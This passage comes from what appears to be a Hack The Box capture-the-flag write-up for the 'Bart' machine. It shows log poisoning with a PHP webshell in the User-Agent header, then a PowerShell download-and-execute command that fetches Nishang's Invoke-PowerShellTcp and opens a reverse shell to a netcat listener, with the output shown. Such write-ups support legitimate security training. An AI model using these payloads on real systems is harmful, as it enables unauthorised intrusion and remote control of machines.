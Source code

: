 #### PHP Webshell

So a webshell is possible:



    >>> headers={'User-Agent':"0xdf: <?php system($_REQUEST['cmd']); ?>"}
    >>> r = requests.get('http://internal-01.bart.htb/log/log.php?filename=0xdf.php&username=harvey', proxies=proxies, headers=headers)





    root@kali# curl http://internal-01.bart.htb/log/0xdf.php?cmd=whoami
    [2018-04-28 22:55:12] - harvey - 0xdf: nt authority\iusr



#### Nishang Invoke-PowerShellTcp Shell

Time for a real shell. Grab `Invoke-PowerShellTcp.ps1` from
[Nishang](https://github.com/samratashok/nishang), and add a line to the
end:



    root@kali# cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1 .
    root@kali# tail -1 Invoke-PowerShellTcp.ps1
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.48 -Port 4444



Give webshell powershell to get interactive shell and run it, and get
shell:



    >>> cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/Invoke-PowerShellTcp.ps1')"
    >>> r = requests.get('http://internal-01.bart.htb/log/0xdf.php?cmd={}'.format(cmd), proxies=proxies)





    root@kali# python -m SimpleHTTPServer 8083
    Serving HTTP on 0.0.0.0 port 8083 ...
    10.10.10.81 - - [28/Apr/2018 16:09:12] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -





    root@kali# nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [10.10.15.48] from (UNKNOWN) [10.10.10.81] 49673
    Windows PowerShell running as user BART$ on BART
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\inetpub\wwwroot\internal-01\log>whoami
    nt authority\iusr


